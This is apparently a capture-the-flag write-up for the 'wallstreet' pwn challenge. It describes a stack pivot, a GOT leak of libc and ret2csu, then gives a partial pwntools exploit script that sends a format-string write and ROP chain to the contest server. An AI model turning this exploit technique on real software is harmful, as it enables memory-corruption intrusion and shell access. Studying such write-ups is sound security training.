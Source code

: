 We should pivot to an offset from `user_buf` in order to have a working ropchain.

After`buy_stonks` calls `leave`, $rsp=$rbp, $rbp is popped off the stack (we control the value), and $rip is popped.

After `main` calls `leave`, the same thing happens, and our ropchain has started.

Now it is a matter of getting a shell. First, we can leak the libc base address by calling `puts` on an entry in the GOT.

Next, we need a way to modify our ropchain. We can call `read` on an offset of our `user_buf`. In order to set up the registers (arguments) correctly, we need to control $rdx, as well as $rdi and $rsi. I did this by using gadgets in `__libc_csu_init`, the technique of which is called ret2csu.

After this, we can just pick and write our one_gadget. Note that using ret2csu gives you control over the registers that some one_gadgets require to be NULL, making it easy to get a one_gadget working.

```python
from pwn import *

e = ELF("./wallstreet")
libc = ELF("./libc-2.32.so")
#ld = ELF("./ld-2.32.so")

context.binary = e
context.terminal = ["konsole", "-e"]

#p = process([e.path])
p = remote("pwn.2021.chall.actf.co", 21800)
#p = remote("localhost", 21800)

context.log_level="debug"
gdb.attach(p, """break * buy_stonks+195\nbreak * buy_stonks+382\nc""")




p.sendlineafter("!", "1")



p.sendlineafter("!", "68")


poprdi = 0x00000000004015c3
csu1 = 0x00000000004015a0
csu2 = 0x00000000004015ba
ret = 0x000000000040101a

chain = p64(poprdi) + p64(e.got["puts"]) + p64(e.plt["puts"]) + \
        p64(csu2) + p64(0) + p64(1) + p64(0) + p64(0x404210) + p64(0x100) + p64(0x4000f8) + \
        p64(csu1) + p64(0)*6 + p64(0) + p64(e.plt["read"]-4) + \
        p64(ret) * 16 + p64(ret)[:3]


p.sendafter("?", ("%{}c%73$lln" + chain).format(e.sym["user_buf"]+8))

for i in range(5):
    p.recvline()

libc.address = u64(p.recv(6).ljust(8, "\x00")) - 0x80d90

print("libc", hex(libc.address))


```